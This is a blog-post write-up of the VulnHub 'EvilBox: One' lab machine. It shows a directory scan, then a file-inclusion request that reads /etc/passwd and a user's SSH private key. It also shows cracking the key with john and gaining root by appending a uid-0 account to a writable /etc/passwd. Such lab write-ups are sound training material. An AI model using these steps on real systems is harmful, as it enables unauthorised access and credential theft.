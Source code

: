```yaml
---
layout: post
title:  "Vulnhub: EVILBOX: ONE"
date:   2021-08-27 20:00:00 +1000
category: hacking
---
```


This is [EVILBOX: ONE](https://www.vulnhub.com/entry/evilbox-one,736/) from VulnHub. 

I've been busy, super tired and yeah whatever let's make excuses. Nah. This box is easy rated and it is genuinely easy.

## Ports
HTTP and SSH.

## HTTP
Quick bit of feroxbusting:

{% highlight shell %}
┌──(root💀kali)-[/opt/vulnhub/evilbox]
└─# feroxbuster -u http://192.168.1.92 -w /usr/share/seclists/Discovery/Web-Content/common.txt -t 200 -C 403 -x txt,php,log,bak

 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.3.1
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://192.168.1.92
 🚀  Threads               │ 200
 📖  Wordlist              │ /usr/share/seclists/Discovery/Web-Content/common.txt
 👌  Status Codes          │ [200, 204, 301, 302, 307, 308, 401, 403, 405]
 💢  Status Code Filters   │ [403]
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.3.1
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 💲  Extensions            │ [txt, php, log, bak]
 🔃  Recursion Depth       │ 4
 🎉  New Version Available │ https://github.com/epi052/feroxbuster/releases/latest
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Cancel Menu™
──────────────────────────────────────────────────
200      368l      933w    10701c http://192.168.1.92/index.html
200        1l        2w       12c http://192.168.1.92/robots.txt
301        9l       28w      313c http://192.168.1.92/secret
200        0l        0w        0c http://192.168.1.92/secret/evil.php
200        4l        0w        4c http://192.168.1.92/secret/index.html
[####################] - 14s   187440/187440  0s      found:5       errors:0      
[####################] - 8s     23430/23430   2786/s  http://192.168.1.92
[####################] - 12s    23430/23430   1855/s  http://192.168.1.92/secret
{% endhighlight %}

What does evil.php give us?

{% highlight shell %}
HTTP/1.1 200 OK
Date: Fri, 27 Aug 2021 11:06:32 GMT
Server: Apache/2.4.38 (Debian)
Content-Length: 0
Connection: close
Content-Type: text/html; charset=UTF-8
{% endhighlight %}

Not much. Let's get fuzzing. I use Burp Turbo Intruder:

``
GET /secret/evil.php?%s=/etc/passwd HTTP/1.1
``

We find:

>http://192.168.1.92/secret/evil.php?command=/etc/passwd

Works. We have a user, mowree. Let's look....

``
GET /secret/evil.php?command=/home/mowree/.ssh/id_rsa HTTP/1.1
``

Yep. It's encrypted. Copy and break:

{% highlight shell %}
┌──(root💀kali)-[/opt/vulnhub/evilbox]
└─# /usr/share/john/ssh2john.py id_rsa > id.john
                                                                                                                                       
┌──(root💀kali)-[/opt/vulnhub/evilbox]
└─# john id.john -w=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 1 for all loaded hashes
Cost 2 (iteration count) is 2 for all loaded hashes
Will run 2 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
unicorn          (id_rsa)
{% endhighlight %}

We can SSH in.

## Root
Check **sudo -l**; nope. Nothing in /etc/crontab, nothing else on the web. No other uses. Run linpeas - writeable /etc/passwd.

{% highlight shell %}
mowree@EvilBoxOne:/dev/shm$ echo "root2:WVLY0mgH0RtUI:0:0:root:/root:/bin/bash" >> /etc/passwd
mowree@EvilBoxOne:/dev/shm$ su root2
Contraseña: 
root@EvilBoxOne:/dev/shm# cd /root
root@EvilBoxOne:~# id;hostname;date
uid=0(root) gid=0(root) grupos=0(root)
EvilBoxOne
vie ago 27 13:13:29 CEST 2021
root@EvilBoxOne:~# ls -lash
total 24K
4,0K drwx------  3 root 4,0K ago 16 13:06 .
4,0K drwxr-xr-x 18 root 4,0K ago 16 11:16 ..
   0 lrwxrwxrwx  1 root    9 ago 16 13:06 .bash_history -> /dev/null
4,0K -rw-r--r--  1 root 3,5K ago 16 11:20 .bashrc
4,0K drwxr-xr-x  3 root 4,0K ago 16 11:40 .local
4,0K -rw-r--r--  1 root  148 ago 17  2015 .profile
4,0K -r--------  1 root   31 ago 16 12:57 root.txt
root@EvilBoxOne:~# cat root.txt
36QtXfdJWvdC0VavlPIApUbDlqTsBM
root@EvilBoxOne:~# 
{% endhighlight %}

